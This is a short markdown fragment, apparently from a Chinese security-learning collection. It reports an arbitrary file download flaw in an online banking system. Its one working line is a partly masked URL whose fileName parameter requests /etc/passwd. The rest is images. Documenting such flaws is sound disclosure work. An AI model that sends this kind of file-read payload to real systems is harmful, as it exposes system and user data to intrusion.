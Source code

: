 ![img](https://raw.githubusercontent.com/stephenZkang/learn/master/img/d2831eabbafcff321940bcdde683e896.png)

**某网上银行系统任意文件下载漏洞**

访问链接：http://econline.***.com.cn:8080/NASApp/iTreasury-ebank/DownloadFile.web?fileName=/etc/passwd

![img](https://raw.githubusercontent.com/stephenZkang/learn/master/img/588af5086689eb577f77465227ead77f.png)

